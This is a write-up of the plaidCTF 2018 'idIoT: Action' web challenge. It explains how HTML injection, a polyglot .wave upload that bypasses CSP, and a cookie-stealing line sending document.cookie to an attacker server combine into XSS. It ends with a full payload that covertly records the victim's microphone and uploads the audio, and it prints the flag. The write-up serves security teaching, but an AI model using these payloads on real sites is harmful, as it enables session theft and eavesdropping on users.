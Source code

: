 # idIoT: Action
*plaidCTF 2018 Web 200*


## Problem

Some people won't let any smart devices in their home at all. Some are cautious, do their research, and make an informed decision. This guy falls in neither category; he's a a downright idIoT. 

The idIoT uses this service called [clipshare](https://idiot.chal.pwning.xxx/); you can find his account [here](https://idiot.chal.pwning.xxx/user.php?id=3427e48e-a6eb-4323-aed4-3ce4a83d4f46) or here after you make an account. 

He was telling me the other day about how he has a Google Home next to his computer running at all times. He also told me that if you ask politely it will tell you the flag. However, while he'll look at anything you share, he closes it almost immediately if he doesn't seem like it'll interest him. Maybe we can look at his clips to find something to match his interests? 

(Flag format: PCTF{xxx} where xxx is some text composed of lower-case letters and underscores)

## Look up
We can write a new clip with out title, description and some audio. Audio can be uploaded, or can be recorded using our browser. After some simpletest, we can find 'Description' field allows us `HTML Tag Injection`, but not `<script>` becuase of its CSP.

![Tag injected](https://i.imgur.com/F4fv0PF.png)
![CSP](https://i.imgur.com/hvCZdyr.png)

Since CSP exists `script-src 'self'`, XSS shoud be able by uploading some scripts to clip and including it.

## Weak audio check and MIME type

Server refuses the fiel when its extension is not ended with `.wav/.wave/.mp3/.ogg/.web`. But it doesn't seems strictly check it. We can upload some corrupted audio files like this one!
![Is this real wav?](https://i.imgur.com/15mYPVI.png)

It considered as normal wave file since its magic number, but it also can be translated as following javascript.

```javascript
RIFF=1;
alert('test');
```

I've tried script injection with .wav and .mp3 files, but both of them didn't work. It couldn't pass the MIME type check. ![mpeg MIME is not executable](https://i.imgur.com/5wBeF6O.png)

So I googled about it then I can find a document that lists [default apache MIME types](https://svn.apache.org/repos/asf/httpd/httpd/trunk/docs/conf/mime.types)
![What is wave??](https://i.imgur.com/c5X5Dup.png)

We can see apache doesn't recognize `.wave` extension as `audio/*`, thus including `.wave` file like following allows to script execution.

```html
<script src="uploads/upload_5aeea228222b70.00604196.wave"></script>
```

## Get a flag
Two steps required to get a flag.

* Show admin's clips
* Record a response of Google Home.  

### Show clips of admin
Since we know how to execute javascript, stealing is easy. Various way to steal admin's clip.

```javascript
location.href = <your server> + "?ck=" + "document.cookie"
```

After we change our session to admin's session, we can see two clips.

First clip is

	Title; Thoughts on Google Home
	
	I got a Google Home recently, and I've been having a lot of fun with it!
		
and next one is
 
	Title; Nostalgia
	
	Has anyone else played Toaster Wars?
	Share me clips with 'spatulate' in the description and I'll give them a listen!
	
By the audio clip of first clip I mentioned, if we say "Hey Google, what is a flag?" to Google Home, it will answer the flag. So the next thing to do is record audio "Hey Google, what is a flag?" and write a description as 'spatulate' to Google Home listen it.

### Record from admin's account
We already know how to get a flag. But it has a problem. We can guess Google Home **speaks** the flag, then how can we get it? `js/main.js` has the answer. `main.js` has implementations to deal with this problem. 

![record, submit](https://i.imgur.com/if9YeMI.png)

If we reconstruct javascripts using those implementations of record and submit, we can write a new clip! But admin's account seems can't write a new clip, so we have to write it to our own account by chainging session.

So final payload is

Description field:

```html
spatulate
<form action="create.php" method="post" enctype="multipart/form-data" id="upload-form">
	<input type="text" name="title" value="answer"/>
	<input type="text" name="description" value="answer"/>
	<audio id="record-playback" controls></audio>
	<input type="submit" name="submit" value="submit" />
</form>
<script src="uploads/upload_5aeea228222b70.00604196.wave"></script>
```

Script in .wave:

```javascript
navigator.mediaDevices.getUserMedia({ audio: true })
	.then((stream) => {
	mediaRecorder = new MediaRecorder(stream, { mimeType: 'audio/webm' });
	mediaRecorder.start();
	let chunks = [];
	mediaRecorder.addEventListener("dataavailable", (e) => {th
		chunks.push(e.data);
		console.log(e.data);
	});
	mediaRecorder.addEventListener("stop", () => {
		mediaBlob = new Blob(chunks);
		document.cookie = "PHPSESSID=v3368khvdmn5pl8ea6qh5g3ke3";
	
		let uploadForm = document.getElementById("upload-form");
		let formData = new FormData(uploadForm);
	   	formData.append("audiofile", mediaBlob, "audio.webm");
	   	let f = fetch("create.php", {
			method: "POST",
			body: formData,
			credentials: "same-origin"
		});	
	})
	setTimeout(function() {
		mediaRecorder.stop();
	}, 15000);
});
```	

###Final
Injected script will write a new clip named 'answer' with an audio reading flag :D

The flag is `PCTF{not_so_smart}`
